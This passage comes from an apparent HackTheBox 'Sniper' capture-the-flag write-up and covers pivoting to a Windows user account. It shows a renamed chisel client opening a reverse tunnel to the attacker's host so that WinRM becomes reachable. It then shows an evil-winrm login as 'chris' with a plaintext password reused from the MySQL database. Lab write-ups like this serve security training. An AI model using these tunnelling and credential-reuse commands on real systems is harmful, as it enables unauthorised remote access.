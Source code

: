 ![users-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/users-30.png)


Could the creds work for `Chris`? 


To connect to the WinRM endpoint, we need to tunnel port 5895 as well. So I terminate my previous tunnel, restart my chisel server on a different port, and connect form the target using:

```cmd
.\cheese.exe client 10.10.14.63:4366 R:5985:127.0.0.1:5985
```

I then try to connect to the WinRM endpoint using the password I scraped from the database, but it fails. but using the password to the MySQL database works:

```bash
evil-winrm -i 127.0.0.1 -u chris -p '36mEAhz/B8xQ~2VM'
```

![chris-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/chris-31.png)
